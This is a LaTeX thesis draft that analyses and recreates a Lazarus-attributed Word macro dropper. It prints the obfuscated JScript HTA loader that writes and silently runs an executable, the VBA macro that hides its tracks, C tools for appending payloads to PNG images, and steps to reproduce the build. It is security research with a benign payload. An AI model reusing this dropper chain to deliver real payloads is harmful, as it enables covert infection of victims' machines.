Mienie to ransomware that allows the attacker multiple opportunities for extorting payments from their victims.
\cite{multiple-extortion-ransomware}.
Payne and Mienie further suggest that the evolution of multiple extortion attacks is an important and ongoing
development in the current threat landscape:
\begin{quote}
  There are many ways in which these kinds of multiple-extortion attacks may already be developing organically,
  with or without forethought. First, third parties who purchase or download a victim's sensitive files may pursue
  additional attempts to blackmail or otherwise extort money from the victim directly using the same information.
  Second, criminals may leverage customer, client, patient or employee data from leaked files to harass,
  intimidate, or extort money from those individuals. Third, and possibly most concerning of all, while an individual
  or organization might not be a valuable or high-profile target at the present time, the negligible cost of storing
  stolen data could mean that many years in the future, the sensitive information of a potential world leader or
  prominent businessperson could be used to blackmail or extort years or possibly decades after an initial attack.
  \cite{multiple-extortion-ransomware} %TODO: Is it okay to change a spelling to the BrE spelling in a citation?
\end{quote}
We've already been able to see some of their thoughts become reality during the Vastaamo attack, where the second
development cited can be observed with attackers extorting the victim's customers.

\subsection{Cryptojacking}
\subsection{State-sponsored Threat Actors}


\section{File Format Security}
\subsection{What Is a File}
\subsection{Hiding Extra Content in Files}
\subsubsection{File Format Hacking}
\subsection{Example: Bitmap Image Files}

\section{Microsoft Word Documents}
\subsection{History of the File Format}
\subsubsection{.doc}
\subsubsection{.docx}
\subsection{Macros and Scripting}
\subsection{Use in Malware}

% --------------------------------------------------
% Notes
% --------------------------------------------------

\clearpage

Background
\begin{enumerate}
  \item What is Malware?
  \item Attack Vectors
    \begin{itemize}
      \item Social Engineering
        \begin{itemize}
          \item Phishing / Spear Phishing
          \item Insider Threat
          \item Compromised or Weak Credentials
        \end{itemize}
      \item Vulnerabilities (CVE)
    \end{itemize}
  \item Malware
  \begin{itemize}
    \item Payload types
    \item Concealing / Obfuscation + common techniques
  \end{itemize}
  \item Files
    \begin{itemize}
      \item What is a file
      \item Bitmap images
      \item Hiding extra content in files
      \item File format hacking
    \end{itemize}
  \item Word Documents
    \begin{itemize}
      \item Format description
      \item Macros / Scripting
      \item Use in Malware
      \item What about not using MS Office suite to open documents
    \end{itemize}
  \item Lazarus
    \begin{itemize}
      \item Threat Actor
      \item Advanced Persistent Threat
      \item Actor Profile -- Lazarus
      \item WannaCry?
    \end{itemize}
\end{enumerate}

    \chapter{Main Idea}
Hiding malware in data files can be done in a multitude of ways and for this thesis we choose to replicate an especially
interesting malware attack which occured in 2021. It was reported on by Hossein Jazi, senior threat intelligence
analyst with Malwarebytes in July 2021, on the company's blog. The article shared some important details about the malware 
itself, such as \acrfull{iocs} and addresses of the command and control servers, but also a thorough write-up of the mechanisms 
the malware used to drop a \acrfull{rat}.

The most notable part of the malware in our eyes was the fact it used an image conversion algorithm native to Microsoft
Windows in order to extract the payload in a relatively benign looking operation, so we decided to recreate it 
in the interest of scientific rigour and checking whether the exploit still works, or if changes have occurred
that make this kind of attack impossible.

The primary source for our research and recreation of the malware is the aforementioned article, which we have stuck to
as closely as possible throughout. However, this wasn't always possible, and we had to engineer a handful of tools
to make the malware work ourselves. 

We have left out a number of parts of the virus which we deemed irrelevant to our goals; we haven't recreated the lure
form or the original document form for example, as we don't find it necessary to create a convincing lure in order to
demonstrate the vulnerability being exploited.

As a final disclaimer, we replaced the malicious payload with a benign application, which does not harm the computer
that executes the malware. Since the focus of this work is hiding executable code within data files, we focus on
that mechanism, rather than the final malicious payload itself. The original malicious document extracted an encrypted
executable which decoded itself and loaded a second-stage payload into memory which established communication with a
command and control server.

\section{Malware Recreation}
The malware itself consisted of multiple separate mechanisms that come together to drop and execute a malicious payload
on the victim's machine. The following activity diagram shows the execution flow of the malware, 
with swimlanes for each individual part of the malware.

We classify this malware as a macro virus, so of course, the initial infection starts when the victim opens the macro
enabled document and allows the execution of macros. This is, naturally, something one should never do for security
reasons, and yet macro viruses remain a common infection vector for malware, with users often clicking the \emph{enable
macros} button out of habit, not realising the severity of their actions \cite{macro-viruses-users}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/malware-process-graph.png}
  \label{process-graph}
  \caption{Malware Process Graph}
\end{figure}

After the victim enables macros, a message box pops up informing the user a demonstration of the payload dropping
mechanism will occur after they close the message box. In the original virus, this message box claimed that the user 
was using an older version of Microsoft Office \cite{jazi-article}. Coinciding with the roll-out of the new operating 
system Windows 11, we believe the purpose of this message box was for the victim to dismiss any performance loss their 
device may suffer during the payload extraction and attribute it to the document being made compatible with their version 
of Microsoft Office. 
We conclude this because when experimenting with differently sized payloads we observed a significant performance drop
on the device while the payload was extracted by \verb+mshta.exe+.

Regardless of what option the victim selects in the message box, the macro will continue execution. The macro obfuscates
key constants in order to avoid automated detection and to make analysis more difficult. The chosen obfuscation
methodology includes introducing encoded strings, misleading variable names as well as some excess declarations to 
serve as smoke and mirrors for analysts.

\begin{lstlisting}[language=VBScript, caption={Encoded Strings in the Macro}][H]
  MyCalc = "d2lubWdtdHM6Ly8uL3Jvb3QvY2ltdjI6V2luMzJfUHJvY2Vzcw==" ' winmgmts://./root/cimv2:Win32_Process
  Dim Calc As String : Calc = Decode(MyCalc)
  Dim MyValue As String : MyValue = "bXNodGE=" ' mshta
  Dim Value As String : Value = Decode(MyValue)
  Dim MyExt1 As String : MyExt1 = "emlw" ' zip
  Dim Ext1 As String : Ext1 = Decode(MyExt1)
\end{lstlisting}

The main purpose of the macro is to execute a payload loader and then remove all traces of its presence from the system.
It achieves this with a creative mechanism -- the document is saved as \acrshort{HTML}, which extracts the contents of the
document, most importantly for us the images, to a subdirectory, while appearing completely benign. The next misleading
step is a simple call to \verb+WIA_ConvertImage+, an image conversion function. This function is \emph{supposed} to
convert and image from one format to another, in this case \acrshort{PNG} to \acrshort{BMP}, but it in fact achieves a
more sinister goal. During the image conversion process, an embedded \verb+Zlib+ archive appended to the \acrshort{PNG}
image gets extracted, appending a \acrfull{HTA} document to the end of the resulting \acrshort{BMP} image.

In the final step of execution within Microsoft Word, the macro uses the \acrfull{mshta} executable to run the resulting
\acrshort{BMP} image and deleting all the artefacts left behind by the macro.

Handing off to \acrshort{mshta}, the malware runs a heavily obfuscated \acrshort{HTA} document which serves to drop the
payload. This is the most obfuscated part of the code we covered and while the unobfuscated code has less than 20 lines
of code, the obfuscated version has almost three times as many. The executable payload is also stored directly in the
\acrshort{HTA}, leading to a massively inflated line count if we count it, since even small executables serialise to
thousands of lines in the chosen serialisation method. 

This part of the malware uses a few quirks of the JavaScript language to make analysis even harder, chief among which is
the use of bracket notation in object access. Using the fact that all arrays in JavaScript are objects, their properties
can be accessed using bracket notation as well as dot notation, in short: \verb+foo.push()+ and \verb+foo['push']()+ are 
considered to be equivalent and equally valid notations. 
The malware further combines this by saving the property names in an array accessed via a special function that takes an 
input and converts it into a valid index. The array is also shuffled during execution for good measure. This all leads to 
severly worsened readability of function calls, such as \verb+e[_0x556975(0x1ec)]('MZ')+
\footnote{Unobfuscated: \texttt{file.Write('MZ')}.}, making analysis more difficult. % inline \verb doesn't work in footnote

The executable is stored in memory as an array of Unicode characters represented numerically, corresponding to the
\verb+unsigned short+ data type in C. This array is joined into a string using the JavaScript \verb+String.fromCharCode()+
function and then written to a file using a Microsoft JScript object, namely
\verb+ActiveXObject("Scripting.FileSystemObject")+, the same object used in the \acrshort{VBA} section of the malware.
Finally, the payload is executed using another Microsoft JScript object, \verb+ActiveXObject('WScript.Shell')+, which
hands off execution to the payload, \verb+AppStore.exe+.

\verb+AppStore.exe+ is where we stopped our implementation, as what happens next is essentially the virus' endgame. 
A malicious executable has been dropped onto the user's system and executed, the author is free to do as they please.
In the original attack, the payload loads a base 64 encrypted second stage payload into memory and decrypts it in order to
establish communications with a command and control server, with all the API requests between the infected device
and the command and control server being encrypted with a custom algorithm similar to one used in a previous incident
attributed to Lazarus \acrshort{APT} \cite{jazi-article}. 

% --------------------------------------------------
% Notes
% --------------------------------------------------
\begin{enumerate}
  \item Lazarus BMP RAT Analysis
  \item My re-implementation in key points
  \item Tests on different operating systems
    \begin{itemize}
      \item Current Windows systems
      \item EOL Windows systems
      \item Linux systems
      \item Running the malware \emph{outside} MS Office
    \end{itemize}
\end{enumerate}



    \chapter{Implementation}
One of the reasons that malware such as the one we analysed can be hard to de-obfuscate and analyse is the interplay of
the different tools that go into creating it. In recreating this malware, we identified 5 different items that needed
to be worked on individually for the malware to work. These 5 items fall within 4 categories, corresponding to the
following subsections. 

The implementation closely followed an article by Hossein Jazi, senior threat intelligence analyst with Malwarebytes,
published on the blog of the company. The article gave us the baseline for the recreation, showing the most important
parts of the malicious document and the payload, for us to base our re-implementation on. Some methods the malware
authors used to create the payload were not disclosed in the article, so we needed to improvise our own solutions.

\section{Payload} \label{sec:impl-payload}
The payload itself is the part of the work we took the most liberty with. Originally, the executable dropped by the
payload loader contained an encrypted second-stage payload that communicated with a command and control server,
something truly out of scope of this work. Instead, we decided to keep it simple and create two dummy payloads instead.

The first dummy payload we created was a simple C Hello World program that printed a message to the screen and waited 
for user input, upon which it halted. This payload was created in order to have a payload of a minimal size that is 
can be extracted quickly by the loader. Additionally, since this payload is executed in the background by the
\acrshort{HTA}, it will continue running indefinitely since it will never record the key press needed to terminate.
We view this as beneficial, since it makes the malware execution easier to observe and recreates the notion of a process 
being left behind to communicate with the command and control servers.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\textwidth]{figures/payload_exe_demo.png}
  \label{c-payload-demonstration}
  \caption{The simple payload used in the malware recreation}
\end{figure}

The second payload was a larger payload with a simple GUI that was meant to pop up on the victim's screen after a
successful execution. We tried creating the executable in multiple different languages using Microsoft Visual Studio,
but in the end even the most minimal payloads were around 80 megabytes in size, leading to hugely inflated sizes across 
the different stages of the payload deployment. Working with such large payloads proved to be inefficient, and we
decided to stick with the first payload.

\section{Payload Creation Utilities - C} \label{sec:impl-utilities}
Creating all the separate parts of the payload is something the original article didn't dive into, 
so we decided to create our own utilities to aid in this process. 

There were two tasks that needed to be done to prepare the payload executable for use: 
\begin{enumerate}
  \item Serialise the payload executable into a JavaScript array of Unicode character codes and embed it into the
    \acrfull{HTA}
  \item Compress the \acrshort{HTA} and attach it to the end of a \acrshort{PNG} image
\end{enumerate}

\subsection{Payload Serialisation}
% TODO: should the reference be cited?
The payload serialisation was a rather straightforward process. Since the payload loader deserialises the payload by
using the JavaScript static method \verb+String.fromCharCode()+ we want to split the payload executable into an array 
of conformant data. The \verb+String.fromCharCode()+ method takes an arbitrary number of arguments, all of which are
numbers between 0 and 65535 -- this corresponds to the \verb+unsigned short+ data type in C. 

The utility functions in a very straightforward manner, it reads the executable file at the path provided as the first 
argument to the program and saves it into a buffer array of \verb+unsigned short+ elements and then prints it to
\verb+stdout+, which can be redirected to a file. We chose to print to \verb+stdout+ in order to make writing to the
\acrshort{HTA} file easier in an automated script. The output is an array that can be copied into the source code of
the \acrshort{HTA} file directly.

\begin{lstlisting}[language=C, caption={Payload serialisation function}][H]
int print_array(FILE *file) {
  size_t read;
  unsigned short buffer[8192];

  // Use var over const because MS JScript doesn't always support it
  printf("var data = [\n  ");
  do {
    read = fread(buffer, 2, sizeof buffer / 2, file);
    for (size_t i = 0; i < read; i++) {
      printf("%d, ", buffer[i]);
      if (i % 10 == 0 && i != 0) {
        printf("\n  ");
      }
    }
  } while (read > 0);

  printf("\n]\n");
  return 1;
}
\end{lstlisting}

\subsection{Embedding the Payload in an Image}
The second utility works in a very similar manner. Its purpose is essentially just concatenating two files, so it
alternates reading from the input file and appending to the output file using a buffer of \verb+unsigned char+ elements. 
We also implemented rudimentary input argument checking to help a user order the arguments correctly -- the program 
expects the target \acrshort{PNG} file as the first argument and the compressed payload as the second argument.

\begin{lstlisting}[language=C, caption={Payload concealment function to attach the compressed \acrshort{HTA} to the
\acrshort{PNG}.}][H]
int hide_payload(FILE *image, FILE *executable) {
  unsigned long read, wrote;
  unsigned char buffer[8192];
  unsigned char iend[] = {73, 69, 78, 68};

  // Overwrite the IEND PNG image trailer
  fseek(image, -4, SEEK_END); 

  // Skip the zlib header for the appended file -- appends to the
  // existing zlib data
  fseek(executable, 3, SEEK_SET);
  do {
    read = fread(buffer, 1, sizeof buffer, executable);
    wrote = fwrite(buffer, 1, read, image);

    // Indicates an error while writing
    if (wrote != read) {
      return 0;
    }
  } while ((read > 0));

  // Append the IEND image trailer behind the appended data
  fwrite(iend, 1, 4, image); 
  return 1;
}
\end{lstlisting}

The full source code of both of utilities can be found on the GitHub repository for this 
work\footnote{\url{https://github.com/memoriesadrift/bsc-thesis}}, with a full guide on reproducing the results of this 
thesis in the \nameref{sec:reproducing-results} section.

\section{Payload Loader - JavaScript} \label{sec:impl-loader}
The payload loader, or payload dropper, is responsible for reconstructing the executable payload on the victim's device
and running it. It is written in JavaScript, or more precisely, Microsoft JScript, a substandard of JavaScript with
added capabilities meant to be run on Microsoft Windows systems, for example by the application we are using to execute
the \acrfull{HTA} hosting the payload loader.

The only contents of the \acrshort{HTA} are an empty body and an \acrshort{HTML} script tag containing the payload
loader, so we don't deem it necessary to discuss it and will focus solely on the JavaScript contents of the script
tag. 

It is evident that the attackers wanted this part of the malware code to be the hardest to analyse, as it is more
heavily obfuscated than any other part of the code we analysed. Only the second-stage payload which we didn't 
analyse or recreate was more obfuscated. These obfuscations are mostly symbolic in nature, relying on quirks of the
JavaScript programming language as well as string encoding, usage of hexadecimal numbers instead of decimal numbers,
as well as indirection in array accesses.

As a first step in our re-implementation process, we reconstructed the original source code by de-obfuscating the 
program. It is important to note that the code is de-obfuscated to run using Microsoft JScript and isn't necessarily 
the simplest or most elegant way to write the program, adhering to modern JavaScript best-practices.

\begin{lstlisting}[language=JavaScript, caption={Unobfuscated payload loader}][H]
window.resizeTo(0, 0)
try {
  var data = [104,101, ... ] // payload 
  var path = "C:\\Users\\Public\\Libraries\\AppStore.exe"
  var fso = new ActiveXObject("Scripting.FileSystemObject")

  var content = ''
  for (var i = 0; i < data.length; i++) {
    content.push(String.fromCharCode(data[i]))
  }

  var file = fso.CreateTextFile(path, true)
  file.Write("MZ")
  file.Close()

  file = fso.OpenTextFile(path, 8, false, -1)
  file.Write(content)
  file.Close()
  var shell = new ActiveXObject("WScript.Shell")
  shell.Run(path, 0)

} catch (error) {}
window.close()
\end{lstlisting}

When looking at this unobfuscated source code, the functionality of the program as a whole is clear -- it uses Microsoft
Windows native tools available in Microsoft JScript to create a file (\verb+AppStore.exe+) and writes \verb+MZ+ to it,
followed by strings obtained from an array of 16-bit numbers, then it runs the file.

Obfuscation is a technique used to hide implementation details from analysis of the source code, and while provably
secure obfuscation which doesn't reveal any details is impossible, it nevertheless remains a popular tactic to 
protect from analysis, especially by malware authors \cite{obfuscation}. 

The first and most benign of the obfuscations used was the replacement of readable variable names with gibberish, such
as hexadecimal values prefixed with underscores (as JavaScript variable names may not start with a number), or even
single letters. For example, data used during the program's execution to run commands is stored in an array which
eschews a readable name for \verb+_0x4fba+. Additionally, numbers aren't handled in decimal form, but rather in
hexadecimal form. Since most of us aren't used to working with hexadecimal numbers, this impedes readability further.

Another interesting obfuscation comes from how the array is accessed. There are two obfuscations at play here, the
first is the fact that the function used to access array elements, \verb+_0x187d+, has two arguments, with the second
going unused. The second obfuscation present in this function is that it retrieves a value at a fixed offset from the
index provided in the first argument of the function, introducing a layer of indirection.

A final noteworthy element in this part of the code is how the path string is saved in the array as a split string, we
assume this is in order to not be discovered by automated scanners looking for paths.

\begin{lstlisting}[language=JavaScript, label={lst:obfuscated-access}, caption={Obfuscated data retrieval from an array.}][H]
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
]

var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}
\end{lstlisting}

The next obfuscation of note relies on a quirk of the JavaScript language, and we found it very interesting for this
reason. \emph{Objects} in JavaScript are complex data structures akin to dictionaries which allow arbitrary storage of
key value data. These properties are most commonly accessed using dot notation, but bracket notation is also possible,
allowing for programmatic access of object properties using arbitrary strings. Bracket notation is considered unsafe and 
is very rarely used in practice, meaning the average reader will be confused by code that uses it, such as this payload
loader. The complexity is further increased by the use of the function described in listing \ref{lst:obfuscated-access} 
to further obscure what is actually happening.

\begin{lstlisting}[language=JavaScript, caption={Bracket notation object property access with obfuscated argument.}][H]
// content += String.fromCharCode(data[i])
content += String[_0x556975(0x1dc)](data[i]); 
\end{lstlisting}

Overall, these obfuscations slightly impede analysis without slowing the execution of the loader in any significant way.
For completeness' sake we use the obfuscated loader in the malware recreation, though we have tested the unobfuscated
loader as well to verify correctness. The listing below shows the whole obfuscated payload with explanatory comments
alongside each obfuscated part.

\begin{lstlisting}[language=JavaScript, caption={Obfuscated payload loader.}][H]
// Data array used to execute commands
var _0x4fba = [
  'OpenTextFile', 'CreateTextFile', '245822eefsqR', '598829yCFgdo',
  'close', '302606ILGEZd', '124169YwNuaX', 'resizeTo', 'Close', 'Write',
  '718973kiZVEV', 'fromCharCode', 'C:/U' + 'sers/Publi' + 'c/Librarie' +'s/App' + 'Store.e' + 'xe',
  '108898gckcJk', '1hfvbvr', '1oCpDrk', '1TeNYee', '392776SHsKeZ'
] // split the path string to make automated scanning more difficult

// Pointless second argument for obfuscation
var _0x187d = function(_0x1d5195, _0x59a857) {
  _0x1d5195 = _0x1d5195 - 0x1dc;
  var _0x4fbae6 = _0x4fba[_0x1d5195];
  return _0x4fbae6;
}

var _0x556975 = _0x187d // Function alias

// self invoking function
// arg1: the command array _0x4fba
// arg2: the value 0x6d993 == 448915
// 
// Reorders the array elements until they are in the following order:
// [
//  fromCharCode, C:/Users/Public/Libraries/AppStore.exe,
//  108898gckcJk, 1hfvbvr, 1oCpDrk, 1TeNYee, 392776SHsKeZ,
//  OpenTextFile, CreateTextFile, 245822eefsqR, 598829yCFgdo,
//  close, 302606ILGEZd, 124169YwNuaX, resizeTo, Close, Write, 
//  718973kiZVEV
// ]
(function(_0x284e13, _0x5d8387) {
  var _0x113863 = _0x187d; // Function alias
  while (!![]) {
    try {
      var _0x589f0d = parseInt(_0x113863(0x1e2)) + -parseInt(_0x113863(0x1df)) 
        * parseInt(_0x113863(0x1e8)) + parseInt(_0x113863(0x1de))
        + parseInt(_0x113863(0x1e6)) + -parseInt(_0x113863(0x1ed))
        + -parseInt(_0x113863(0x1e1)) * -parseInt(_0x113863(0x1e5))
        + parseInt(_0x113863(0x1e9)) * parseInt(_0x113863(0x1e0));
      if (_0x589f0d === _0x5d8387) break;
      // places first element at the back of arr
      else _0x284e13['push'](_0x284e13['shift']()); 
    } catch (_0xecf87d) {
      // the error path ultimately does the same as the 
      // normal path if _0x589f0d != _0x5d8387 (second arg)
      // places first element at the back of arr
      _0x284e13['push'](_0x284e13['shift']()); 
    }
  }
  // Calls window.resizeTo(0, 0)
}(_0x4fba, 0x6d993), window[_0x556975(0x1ea)](0x0, 0x0)); 

try {
  var b = new ActiveXObject('Scripting.FileSystemObject'),
    d = _0x556975(0x1dd); // d = 'C:/Users/Public/Libraries/AppStore.exe'

  e = b[_0x556975(0x1e4)](d, !![]), //call Scripting.FileSystemObject.CreateTextFile(path, true)
    e[_0x556975(0x1ec)]('MZ'), // call Scripting.FileSystemObject.Write('MZ') on the created file
    e['Close'](); // close the file
  var data = [144, 3, 0, 4, 0, 65535, 0, 184], // replace with payload
      i, len;
  len = data['length'];
  var content = '';
  for (i = 0x0; i < len; i++) {
    content += String[_0x556975(0x1dc)](data[i]); // content += String.fromCharCode(data[i])
  }
  e = b[_0x556975(0x1e3)](d, 0x8, ![], -0x1), // call Scripting.FileSystemObject.OpenTextFile(path, 8, false, -1)
    e[_0x556975(0x1ec)](content), // call Scripting.FileSystemObject.Write(content) on the opened file
    e[_0x556975(0x1eb)](); // close the file
  var c = new ActiveXObject('WScript.Shell');
  c['Run'](d, 0x0); // run the payload
  
} catch (_0x1f5265) {}
window[_0x556975(0x1e7)](); // window.close()
\end{lstlisting}

\subsection{Compressing the Payload Loader}
Since the payload loader is the final payload that needs to be attached to the image, we need to adequately prepare it
for this task. In practice, this means compressing it in the same way the \acrshort{PNG} data is stored and masking it
as part of the image. 

To compress the data the same way as the \acrshort{PNG} data stream, we need to achieve the following compression
signature using the \verb+binwalk+ utility: \verb+Zlib compressed data, default compression+. Standard compression tools
we used often append additional headers that we don't want and we found the easiest and most straightforward utility to
use to simply compress data using default Zlib compression to be \verb+zlib-flate+, which is part of the \verb+qpdf+
package on Linux systems. This can be applied to the \acrshort{HTA} payload using the following command: 
\verb+zlib-flate -compress < payload.hta > compressed_payload.zip+.

The payload is now ready to be embedded within the \acrshort{PNG} image using the payload creation utilities described
in section \ref{sec:impl-utilities}.


\section{Microsoft Word Document - \acrshort{VBA} Payload} \label{sec:impl-macro}
Recreating the final Microsoft Word Document made all the other parts come together. Even though the main structure of
the document macro payload was outlined in the article, some notable functions were not shown, such as the Base 64
decoding function and, most importantly, the payload extracting \verb+WIA_ConvertImage+ function.

The lack of this function made recreating the malware a lot more difficult. At first, we thought that the function might
be a library function, but it turned out to simply be a name for an image conversion function which uses the
\acrfull{WIA} \acrshort{API}. While searching for the function online, we found a code dump of a malicious document which
heavily resembled our analysed payload on \url{www.docguard.io}\footnote{\url{
https://app.docguard.io/0193bd8bcbce9765dbecb288d46286bdc134261e4bff1f3c1f772d34fe4ec695/results/codes}
[Last accessed 3.6.2022]}. While this function may have not been identical to the one in our analysed payload, it
provided a good starting point for our testing. %TODO: Amend if Jazi replies to the email.

\begin{lstlisting}[language=VBScript, caption={The image conversion function obtained from a source code dump.}][H]
Public Function WIA_ConvertImage(sInitialImage As String, sOutputImage As String, Optional lQuality As Long = 85) As Boolean
    On Error GoTo Error_Handler
    Dim oWIA As Object   'WIA.ImageFile
    Dim oIP As Object    'ImageProcess
    Dim sFormatID As String
    Dim sExt As String
    sFormatID = "{B96B3CAB-0728-11D3-9D7B-0000F81EF32E}"
    sExt = "BMP"
    If lQuality > 100 Then lQuality = 100
    Set oWIA = CreateObject("WIA.ImageFile")
    Set oIP = CreateObject("WIA.ImageProcess")
    oIP.Filters.Add oIP.FilterInfos("Convert").FilterID
    oIP.Filters(1).Properties("FormatID") = sFormatID
    oIP.Filters(1).Properties("Quality") = lQuality
    oWIA.LoadFile sInitialImage
    Set oWIA = oIP.Apply(oWIA)
    oWIA.SaveFile sOutputImage
    WIA_ConvertImage = True

Error_Handler_Exit:
    On Error Resume Next
    If Not oIP Is Nothing Then Set oIP = Nothing
    If Not oWIA Is Nothing Then Set oWIA = Nothing
    Exit Function

Error_Handler:
    Resume Error_Handler_Exit
End Function
\end{lstlisting}

This function is tailored for the purpose of this malware, only converting what is necessary for the malware to run -- 
a proper implementation of image conversion using \acrshort{WIA} that we found supports multiple formats, for example. 
Of note is also that this function isn't obfuscated at all, as its benign functionality serves as the obfuscation. 

Unfortunately, this function failed to replicate the behaviour we wanted to achieve. When we tried compressing the
malicious \acrfull{HTA} file into a plain ZIP file and attaching it to a \acrshort{PNG} image, we were unable to get the conversion
function to decompress the appended archive. Since this function is central to the malware obfuscation, the inability to
recreated presents a large obstacle in verifying the malware functionality. We attempted to contact the original
researcher for clarification, however we haven't received an answer yet. %TODO: Update if we do
Regardless, we believe documenting our recreation process may be meaningful for future research.

The document creation was relatively simple -- after the malicious \acrshort{PNG} is placed into the document, it gets
the file name \verb+image001.png+ internally, which manifests later throughout the malware's execution. After this, the
document is ready to be used. After a victim opens the document and enables macros, a message box pops up letting the
user know that the malware will begin executing, in our case.

Malware execution starts by decoding a set of Base 64 encoded values. Following this a path is defined where the
document is saved as \acrshort{HTML}. This step is important as it extracts all the images embedded within the document
into a subdirectory, allowing us to manipulate them programmatically. After this, it also protects itself in order to
avoid the user manipulating the document. In the original attack this is where the lure form was opened, however we
decided that implementing it would be superfluous.

\begin{lstlisting}[language=VBScript, caption={The malicious document saving itself to extract embedded images.}][H]
    DocName = ActiveDocument.Name
    If InStr(DocName, ".") > 0 Then
        DocName = Left(DocName, InStr(DocName, ".") - 1)
    End If

    TempPath = Environ("Temp") & "\" & DocName

    ActiveDocument.SaveAs TempPath, wdFormatHTML, , , , , True
\end{lstlisting}

After this step, the meat of the attack happens. First, the extracted \acrshort{PNG} image is converted to
\acrshort{BMP}. Interestingly, however, the converted file is given a \verb+.zip+ extension. This image is then
executed by using the decoded versions of the encoded strings as arguments. Aside from the image conversion function not
extracting the embedded payload as we required, we also discovered another bug within this part of the malware. This
bug, interestingly, affected string concatenation of the argument passed to \verb+objWMIService.Create()+. When using
the variable \verb+Value+ in the concatenation, the result of the concatenation would be just the variable \verb+Value+,
with the other concatenated elements not being present in the resulting string. Replacing the variable with its
contents, \verb+mshta+, solved this issue.

\begin{lstlisting}[language=VBScript, label={lst:macro-extraction}, 
caption={The meat of the macro -- extracting the payload from the converted image and executing it.}][H]
    TempPath = TempPath & "_files"
    CreatedImageFilePath = TempPath & "\" & imageFileName
    CreatedImageBMPFilePath = Environ("Temp") & "\" & Left(imageFileName, InStrRev(imageFileName, ".")) & Ext1

    Call WIA_ConvertImage(CreatedImageFilePath, CreatedImageBMPFilePath)

    Set objWMIService = GetObject(Calc)
    ' Replace Value with "mshta" for string concatenation to succeed
    objWMIService.Create Value & " " & CreatedImageBMPFilePath

    Kill TempPath & "\*.*"
    RmDir TempPath
\end{lstlisting}

The final two lines of the macro are dedicated to the document covering its tracks. The \verb+Kill+ function deletes all
files at the given path and \verb+RmDir+ removes the now empty directory cleared by the \verb+Kill+ function. This
assures all the temporary files are removed, except the running payload which was extracted outside the \verb+DocumentName_files+
directory (see \verb+CreatedImageBMPFilePath+ assignment in listing \ref{lst:macro-extraction}).

\section{Reproducing Results}\label{sec:reproducing-results}
The full implementation code as well as the full text and \LaTeX\ code of the thesis itself can be found 
on our GitHub, in the following repository: \url{https://github.com/memoriesadrift/bsc-thesis}.

\subsection{Requirements to Run}
Since the recreated malware is designed to run on the Microsoft Windows operating system, running it requires
an installation of this operating system, preferably Windows 10. %TODO: Test other OS, like win11
The development of all the tools except for the Word Document itself was conducted on a GNU/Linux system, with all
the tools being tested on a Windows 10 physical and virtual machine. Aside from the compression mechanism used in this
work, all tools have been tested on Windows as well.

\subsubsection{Microsoft Word Document and VBA Payload}
For editing the code of the macro, a Microsoft Office installation is required, while Microsoft Office running 
on a Windows operating system (ideally Windows 10) is required to run the code. Don't forget to permit macro 
execution in Microsoft Word. 

For viewing convenience we have included the embedded macros in a separate file in the implementation folder on
GitHub, it can be found under \verb+macro.vb+.

\subsubsection{Payload}
While an arbitrary payload can be attached to the \acrshort{PNG} image, the payload provided is a simple C console
application which can be compiled with any C compiler to run on the target operating system. For use with the 
recreated document we recommend compiling using the \acrfull{GCC} on Windows. We tested compilation on GNU/Linux
as well as on the Windows 10 operating systems.

The payload creation utility can be used to attach an arbitrary payload, removing the reliance on the provided 
payload.

\subsubsection{Payload Creation Utilities}
The payload creation utilities are written in C with no reliance on non-standard C libraries and a compilation
shell script is included for convenience. Compilation and execution were tested on GNU/Linux as well as Windows 10
using \acrshort{GCC}.

\subsubsection{Payload Loader}
The payload loader is Microsoft JScript embedded directly within an \acrfull{HTA} file and is used to drop the
executable on the target's device. It is important to note that it is not intended to be executed outside a 
Microsoft Windows environment, as it relies on objects and utilities provided by the Microsoft JScript standard,
a substandard of JavaScript. The script itself should run without issues on Windows 10, where we tested it.

The \acrshort{HTA} file must be populated with a data array containing the payload executable. To generate an array
from an executable, use the \verb+generate_payload_array+ C utility provided with the payload creation utilities.

\subsection{Recreating the Malicious Document}
We provide a shell script that can be used to generate a malicious \acrshort{PNG} file given any \acrshort{PNG} 
image and executable, running through all the steps automatically. This script can technically be executed on Windows,
but it relies on a Linux package, \verb+zlib-flate+ to compress data in a minimal manner. On Windows, we recommend
simply manually running through all the necessary steps without relying on the script, perhaps using a Linux virtual 
machine to  compress the payload, though at that point it's easier to simply run the whole script in a 
Linux virtual machine.

